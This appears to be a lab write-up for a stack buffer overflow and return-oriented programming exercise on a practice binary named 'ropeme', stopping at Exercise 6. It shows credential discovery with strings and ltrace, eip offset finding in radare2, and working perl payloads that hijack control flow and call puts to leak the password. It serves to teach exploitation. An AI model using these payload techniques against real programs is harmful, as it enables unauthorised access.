 ========
Write-up
========

Exercise 1
==========

Using `strings ./ropeme` we find a line "admin42". It happens to be the
username.

Exercise 2
==========

You can trace calls to library functions with ltrace. This includes strcmp:

::

    $ ltrace ./ropeme admin42
    __libc_start_main(0x400692, 2, 0x7fff9cc08e58, 0x400730 <unfinished ...>
    strcmp("admin42", "admin42")                     = 0
    printf("Enter password: ")                       = 16
    fgets("test\n", 512, 0x7fd40a2d0900)             = 0x7fff9cc08d20
    strcmp("test\n", "\304\263\303\271\303\260\342\210\222\303\267<>[\303\227")
    = -80
    puts("Wrong password")                           = 15
    Enter password: Wrong password
    +++ exited (status 1) +++


The password is "\304\263\303\271\303\260\342\210\222\303\267<>[\303\227". To
see it without the octal notation one can use printf:

::

    $ printf "\304\263\303\271\303\260\342\210\222\303\267<>[\303\227"
    ĳùð−÷<>[×


That explains why is didn't show up using "strings"!

Exercise 3
==========

Reading ltrace's output we can see that fgets is used to get user input
reading up to 512 chars from stdin. What happens if we really write 512
chars?

::

    $ perl -e 'print "A" x 512' | ./ropeme admin42
      Segmentation fault      (core dumped) | ./ropeme admin42

Oh! This smells the buffer overflow! To know where exactly we overwrite the
instruction pointer (eip) I'll use a De Bruijn sequence (I could guess but
this is faster). This is done using radare2 tools.

Here ragg2 will generate a 500-bytes long sequence with no repetitions as
hexadecimal values, rax2 will convert it into ascii values, and we put it in
the clipboard using xclip so that we are able to paste it later.

::

    $ ragg2 -P 500 | rax2 -s - | xclip

Radare2 is then used in debug mode with rarun2 to launch the program with an
argument. We could use gdb but... well... radare2 ^^

::

    $ r2 -d rarun2 program=./ropeme arg1=admin42
        ...
    [0x7fd31872dd80]> dc
    Debugging pid = 12194, tid = 1 now
    [0xf77aeb50]> dc
    Enter password: <paste here from clipboard>
    Wrong password
    [+] SIGNAL 11 errno=0 addr=0x41416641 code=1 ret=0
    [+] signal 11 aka SIGSEGV received 0

Here we have the address at which it tried to return: 0x41416641
Still in radare2 we convert it into an offset to know how much padding we
need:

::

    [0x41416641]> woO 0x41416641
    92

Let's try that!

::

    $ perl -e 'print "A" x 92 . "B" x 4' | xclip
    $ r2 -c "dc;dc" -d rarun2 program=./ropeme arg1=admin42
        ...
    Enter password: <paste>
    Wrong password
    [+] SIGNAL 11 errno=0 addr=0x42424242 code=1 ret=0
    [+] signal 11 aka SIGSEGV received 0
     -- Find cp850 strings with 'e cfg.encoding=cp850' and '/s'
    [0x42424242]>

It works! We have taken eip! We just have to redirect it to section printing
the winning message. Let's disassemble the function checking the password:

::

    $ r2 ropeme
    [0x080483b0]> aa
    [0x080483b0]> s sym.check_password
    [0x080484e6]> pdf
    ╒ (fcn) sym.check_password 145
    │           ; var int local_22     @ ebp-0x58
    │           ; CALL XREF from 0x080485c5 (sym.check_password)
    │           0x080484e6    55             push ebp
    │           0x080484e7    89e5           mov ebp, esp
    │           0x080484e9    83ec58         sub esp, 0x58
    │           0x080484ec    83ec0c         sub esp, 0xc
    │           0x080484ef    6877860408     push str.Enter_password:
    │           0x080484f4    e867feffff     call sym.imp.printf
    │             ^- sym.imp.printf(unk)
    │           0x080484f9    83c410         add esp, 0x10
    │           0x080484fc    a160990408     mov eax, dword [obj.stdin__GLIBC_2.0]
    │           0x08048501    83ec04         sub esp, 4
    │           0x08048504    50             push eax
    │           0x08048505    6800020000     push 0x200
    │           0x0804850a    8d45a8         lea eax, [ebp-local_22]
    │           0x0804850d    50             push eax
    │           0x0804850e    e85dfeffff     call sym.imp.fgets
    │             ^- sym.imp.fgets(unk, unk, unk)
    │           0x08048513    83c410         add esp, 0x10
    │           0x08048516    85c0           test eax, eax
    │       ┌─< 0x08048518    7517           jne 0x8048531
    │       │   0x0804851a    83ec0c         sub esp, 0xc
    │       │   0x0804851d    6888860408     push str.Unable_to_get_the_password
    │       │   0x08048522    e859feffff     call sym.imp.puts
    │       │     ^- sym.imp.puts(unk)
    │       │   0x08048527    83c410         add esp, 0x10
    │       │   0x0804852a    b801000000     mov eax, 1
    │      ┌──< 0x0804852f    eb44           jmp 0x8048575
    │      │└─> 0x08048531    83ec08         sub esp, 8
    │      │    0x08048534    68a3860408     push str.________________
    │      │    0x08048539    8d45a8         lea eax, [ebp-local_22]
    │      │    0x0804853c    50             push eax
    │      │    0x0804853d    e80efeffff     call sym.imp.strcmp
    │      │      ^- sym.imp.strcmp(unk, unk)
    │      │    0x08048542    83c410         add esp, 0x10
    │      │    0x08048545    85c0           test eax, eax
    │     ┌───< 0x08048547    7517           jne 0x8048560
    │     ││    0x08048549    83ec0c         sub esp, 0xc
    │     ││    0x0804854c    68b4860408     push str.Yeah__You_win_
    │     ││    0x08048551    e82afeffff     call sym.imp.puts
    │     ││      ^- sym.imp.puts(unk)
    │     ││    0x08048556    83c410         add esp, 0x10
    │     ││    0x08048559    b800000000     mov eax, 0
    │    ┌────< 0x0804855e    eb15           jmp 0x8048575
    │    │└───> 0x08048560    83ec0c         sub esp, 0xc
    │    │ │    0x08048563    68c3860408     push str.Wrong_password
    │    │ │    0x08048568    e813feffff     call sym.imp.puts
    │    │ │      ^- sym.imp.puts(unk)
    │    │ │    0x0804856d    83c410         add esp, 0x10
    │    │ │    0x08048570    b801000000     mov eax, 1
    │    │ │    ; JMP XREF from 0x0804855e (sym.check_password)
    │    │ │    ; JMP XREF from 0x0804852f (sym.check_password)
    │    └─└──> 0x08048575    c9             leave
    ╘           0x08048576    c3             ret

Ok, so given the disassembly the key section is at 0x0804854c. Let's try that:

::

    $ perl -e 'print "A" x 92 . "\x4c\x85\x04\x08"' | ./ropeme admin42
    Enter password: Wrong password
    Yeah! You win!
    Segmentation fault (core dumped)

Finally!


Exercise 4
==========

When calling another function, the caller (say `main`) pushes the arguments
on the stack (not always, see further) and uses the call opcode that pushes
the current address on the stack for later return and then jumps to the
sub-routine location.

The sub-routine then pushes the ebp address to define its own stack frame,
takes the arguments from the stack to store them in local variables (often
pushing them back or just stocking them in registers), does its thing, then
pops the stack (the ebp address) and returns to the address at the top of the
stack (our previous return address put there by call). The instruction
pointer is incremented and the program continues.

I left away the stack allocation process besides push/pop because it isn't
very relevent here. Also there are other calling conventions besides the
stack. In x86_64, as the registers are bigger and more numerous they are the
primary way to pass arguments.

So the stack look like that before entering puts:

::

    ^ [string address]
    | [return address]

Note that as the stack is decreasing, pushing puts data at the bottom of this
diagram which is the top of the stack (facing downward). Also I represented
it without really using the opcode "call", that's why there is the return
address.

For strcmp it is similar, but note that the arguments are pushed in reverse
order:

::

    ^ [str2   address]
    | [str1   address]
    | [return address]

Exercise 5
==========

To display the password we will hijack a call to puts(). Such a call means
the stack will look somewhat like that before the call:

::

    ^ [password    address]
    | [puts return address]
    | [puts        address]
    | [padding to overflow]

The address of puts is direct:

::

    $ rabin2 -s ropeme | grep puts
    vaddr=0x08048380 paddr=0x00000380 ord=004 fwd=NONE sz=16 bind=GLOBAL type=FUNC name=imp.puts

So [puts address] is 0x08048380. In the same way we find the password address:

::

    $ rabin2 -z ropeme
    ...
    vaddr=0x080486a3 ... string=ĳùð−÷<>[×
    ...

By the way note how rabin2 isn't troubled at all by the weird password.

So far our stack is something like: "80830408XXXXXXXXa3860408". Right now the
return address isn't really important, we will return to the end of the
check_password function, just before the return statement, at address
0x08048575.

::

    # Stack wanted:
    #
    # ^ [password    address] = 0x080486a3
    # | [puts return address] = 0x08048575
    # | [puts        address] = 0x08048380
    # | [padding to overflow] = "A" x 92

    $ perl -e 'print "A" x 92 . "\x80\x83\x04\x08\x75\x85\x04\x08\xa3\x86\x04\x08"' | ./ropeme admin42
    Enter password: Wrong password
    ĳùð−÷<>[×
    Segmentation fault (core dumped)

Yeah!

Exercise 6
==========

We want to print an arbitrary message. The printing part can be done with
puts() but what about the "getting the message" part? The program provides
fgets(), and we can make use of it.
